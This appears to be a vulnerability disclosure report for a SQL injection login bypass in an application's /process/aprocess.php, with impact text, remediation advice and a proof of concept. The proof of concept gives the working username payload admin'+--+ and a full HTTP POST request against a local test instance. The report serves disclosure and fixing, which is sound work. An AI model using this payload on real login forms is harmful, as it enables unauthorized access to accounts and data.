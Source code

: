 # SQL Injection Authentication Bypass Report

## Title: SQL Injection Authentication Bypass
## Affected Component: /process/aprocess.php
## CWE-287: Improper Authentication
## CVSS Base Score: 7.5

### Impact:
SQL injection authentication bypass poses a significant threat by enabling unauthorized access to the system, allowing attackers to exploit vulnerabilities in authentication mechanisms. This can lead to severe consequences including unauthorized entry into sensitive areas, exposure of confidential data, manipulation of system integrity, reputational damage, and potential regulatory compliance violations. The exploit's ability to circumvent authentication safeguards undermines the confidentiality, integrity, and availability of the system, emphasizing the critical need for robust security measures and prompt mitigation of SQL injection vulnerabilities to safeguard against these multifaceted risks.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, begin by accessing the login page of the application. In the username field, input the following payload: `"admin'+--+". This payload aims to manipulate the authentication process by injecting SQL syntax to bypass the login mechanism. Upon submitting the login form with this payload, observe that the application grants access as if logged in as an administrator without requiring a valid password. This indicates successful exploitation of the SQL injection vulnerability, allowing unauthorized access to sensitive areas of the application.

#### HTTP Request:
```http
POST /process/aprocess.php HTTP/1.1
Host: localhost:8080
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080//alogin.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=admin'+--+&pwd=asdasd&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.
